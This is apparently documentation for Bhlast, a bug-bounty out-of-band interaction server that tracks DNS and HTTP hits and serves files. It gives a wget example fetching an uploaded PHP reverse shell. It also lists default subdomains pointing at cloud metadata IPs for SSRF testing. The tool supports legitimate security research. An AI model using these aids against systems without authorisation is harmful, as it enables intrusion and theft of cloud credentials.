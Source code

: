 ﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work.
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}

- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions
  ::

## Default behavior

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. This static page is only used to point you to the documentation, and to show basic information about this server.

### DNS

Each `bhlast` server gets its own subdomain. Each subdomain is unique random lowercase alphanumeric string. Every interaction with that subdomain will be recorded.

By default, you will also get following subdomains:

- aws.\[id\].bhlast.com -> 169.254.169.254
- alibaba.\[id\].bhlast.com -> 100.100.100.200
- localhost.\[id\].bhlast.com -> 127.0.0.1
- oracle.\[id\].bhlast.com -> 127.0.0.1

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |

## Rate limits

To avoid misuse or malicious use of bhlast servers, the rate limiter is implemented.

| Server type | Global rate limit / s | Per IP rate limit / s |
| ----------- | --------------------- | --------------------- |
| DNS         | 5000                  | 10                    |
| HTTP(s)     | 5000                  | 20                    |

Furthermore, if the number of questions in a DNS query exceeds 8, the DNS request will be rejected completely.
This should reduce DNS amplification attacks.